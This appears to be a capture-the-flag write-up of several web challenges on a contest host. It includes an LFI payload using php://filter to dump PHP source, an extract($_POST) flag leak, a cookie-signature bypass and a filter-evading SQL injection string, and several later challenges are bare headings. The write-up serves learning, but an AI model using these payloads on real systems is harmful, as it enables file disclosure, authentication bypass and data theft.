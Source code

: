 # Web 
## Agent 95 (50)

Set user agent as Windows 95:

https://developers.whatismybrowser.com/useragents/parse/2520-internet-explorer-windows-trident

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    # windows 95 user agent
    'User-Agent': 'Mozilla/4.0 (compatible; MSIE 5.5; Windows 95; BCD2000)',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'en-US,en;q=0.9',
}

response = requests.get('http://jh2i.com:50000/', headers=headers, verify=False)
```

## Localghost (75)

Check local storage

![](images/2020-06-17-21-33-43.png)

## Phphonebook (100)

LFI vulnerability:
```
http://jh2i.com:50002/index.php?file=php://filter/convert.base64-encode/resource=index.php
```

~index.php~ contains this juicy bit:
```
<?php
      extract($_POST);

    	if (isset($emergency)){
    		echo(file_get_contents("/flag.txt"));
    	}
    ?>
```

So just add emergency to POST request

## Official Business (125)

```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")
    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")

            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

Thrown exceptions pass the `load_cookie` check, so just send request with no `digest` field in the cookie

## Seriously (125)
## Extraterrestrial (125)
## Rejected Sequel (150)

`"/**/union/**/select/**/flag/**/FFROMROM/**/flag/**/WWHEREHERE/**/TRUE/**/or/**/""="
`
## B'omarr Style (200)
## Flag Jokes (200)
## Mongolian BBQ (225)
## Criss Cross (400)
## Trash The Cache (1000)
